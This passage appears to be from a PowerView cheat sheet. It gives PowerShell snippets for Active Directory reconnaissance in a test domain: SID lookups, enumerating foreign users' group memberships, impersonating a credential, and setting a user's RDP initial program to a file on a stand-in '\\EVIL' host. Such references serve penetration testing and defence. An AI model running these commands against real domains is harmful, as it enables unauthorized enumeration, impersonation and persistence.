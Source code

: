 ```powershell
# PowerView
'S-1-5-21-890171859-3433809279-3366196753-1114', 'CN=dfm,CN=Users,DC=testlab,DC=local','4c435dd7-dc58-4b14-9a5e-1fdb0e80d201','administrator' | Get-DomainUser -Properties samaccountname,lastlogoff
```

## Enumerate All Foreign Users in the Global Catalog, and Query the Specified Domain Localgroups for Their Memberships

```powershell
# PowerView

# query the global catalog for foreign security principals with Domain-based SIDs, and extract out all distinguishednames
$ForeignUsers = Get-DomainObject -Properties objectsid,distinguishedname -SearchBase "GC://testlab.local" -LDAPFilter '(objectclass=foreignSecurityPrincipal)' | ? {$_.objectsid -match '^S-1-5-.*-[1-9]\d{2,}$'} | Select-Object -ExpandProperty distinguishedname
$Domains = @{}
$ForeignMemberships = ForEach($ForeignUser in $ForeignUsers) {
    # extract the Domain the foreign User was added to
    $ForeignUserDomain = $ForeignUser.SubString($ForeignUser.IndexOf('DC=')) -replace 'DC=','' -replace ',','.'
    # check if we've already enumerated this Domain
    if (-not $Domains[$ForeignUserDomain]) {
        $Domains[$ForeignUserDomain] = $True
        # enumerate all Domain local groups from the given Domain that have membership set with our foreignSecurityPrincipal set
        $Filter = "(|(member=" + $($ForeignUsers -join ")(member=") + "))"
        Get-DomainGroup -Domain $ForeignUserDomain -Scope DomainLocal -LDAPFilter $Filter -Properties distinguishedname,member
    }
}
$ForeignMemberships | fl
```

## If Running in -sta Mode, Impersonate Another Credential a la "runas /netonly"

```powershell
# PowerView

$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
# ... action
Invoke-RevertToSelf
```

## Set the Specified Property for the given User Identity

```powershell
# PowerView
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```
